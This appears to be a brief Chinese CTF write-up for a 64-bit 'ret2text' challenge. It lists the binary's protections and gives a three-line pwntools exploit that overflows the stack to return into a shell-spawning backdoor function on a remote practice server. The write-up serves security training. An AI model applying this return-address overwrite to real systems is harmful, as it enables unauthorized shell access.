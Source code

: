# W1 ret2text

## 文件分析

下载`ret2text`, NX on, PIE off, Canary off, RELRO full  
ghidra分析为64位程序

## 解题思路

`backdoor`函数直接打开sh了，打就完了

## EXPLOIT

```python
from pwn import *
sh = remote("node4.buuoj.cn", 29533)
sh.sendline(b'0'*0x28 + p64(0x004011fb)) # addr of backdoor
sh.interactive()
```

Done.
